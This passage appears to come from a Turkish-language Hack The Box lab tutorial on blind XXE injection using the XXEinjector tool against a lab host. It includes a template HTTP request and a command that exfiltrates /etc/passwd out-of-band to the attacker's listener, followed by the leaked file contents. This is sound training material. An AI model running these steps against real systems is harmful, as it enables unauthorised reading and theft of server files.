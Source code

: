```shell-session
C4RT3L@htb[/htb]$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

Araca sahip olduğumuzda, HTTP isteğini Burp'ten kopyalayabilir ve aracın kullanması için bir dosyaya yazabiliriz. XML verisinin tamamını değil, sadece ilk satırını eklemeli ve araç için bir konum belirleyici olarak arkasına `XXEINJECT` yazmalıyız:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Şimdi, `--host/--httpport` bayrakları IP ve portumuz, `--file` bayrağı yukarıda yazdığımız dosya ve `--path` bayrağı okumak istediğimiz dosya olacak şekilde aracı çalıştırabiliriz. Yukarıda yaptığımız OOB saldırısını tekrarlamak için `--oob=http` ve `--phpfilter` bayraklarını da aşağıdaki gibi seçeceğiz:

```shell-session
C4RT3L@htb[/htb]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

Aracın verileri doğrudan yazdırmadığını görüyoruz. Bunun nedeni, verileri `base64` kodlamamızdır, bu nedenle yazdırılmaz. Her durumda, sızan tüm dosyalar aracın altındaki `Logs` klasöründe saklanır ve dosyamızı orada bulabiliriz:

```shell-session
C4RT3L@htb[/htb]$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```

